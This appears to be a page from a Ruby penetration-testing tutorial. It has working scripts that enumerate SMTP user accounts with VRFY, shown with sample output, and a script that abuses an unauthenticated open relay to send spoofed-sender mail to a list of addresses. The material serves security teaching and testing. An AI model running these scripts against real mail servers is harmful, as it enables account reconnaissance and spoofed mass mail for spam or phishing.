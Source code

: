 # SMTP Enumeration

## SMTP email address enumeration

Interacting with SMTP is easy and since the protocol is straight forward. We can use the [VRFY](https://book.hacktricks.xyz/pentesting/pentesting-smtp#vrfy) command to check if an email address exists or not:

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'socket'

users =
    %w{
        root rubyfu www apache2 bin daemon sshd
        gdm  nobody ftp operator postgres mysqld
      }
found = []

@s = TCPSocket.new('192.168.0.19', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "VRFY #{user} \n\r", 0
  resp = @s.recv(1024).chomp
  found << user if resp.split[2] == user
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
puts "[+] Found users: \n#{found.join("\n")}"
```

Results

```text
[*] Result:-
[+] Banner: 220 VulnApps.localdomain ESMTP Postfix
[+] Found users: 
root
rubyfu
www
bin
daemon
sshd
gdm
nobody
ftp
operator
postgres
```

**Your turn**, there are other commands that can be used such as [EXPN](https://book.hacktricks.xyz/pentesting/pentesting-smtp#expn), `RCPT`. Enhance the above script to include all these commands to avoid restricted commands that might you face. More SMTP commands are listed [here](https://book.hacktricks.xyz/pentesting/pentesting-smtp/smtp-commands).

## SMTP open relay abuse

SMTP not protected by authentication can be abused to send emails from anyone:

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")

@s = TCPSocket.new('example.org', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "MAIL from:noraj@example.org \n\r", 0
  @s.send "RCPT to:#{user} \n\r", 0
  @s.send "DATA \n\r", 0
  @s.send "email body here \r\n.\r\n", 0
  resp = @s.recv(1024).chomp
  puts resp
end
@s.close

puts "[*] Result:-"
puts "[+] Banner: " + @banner
```

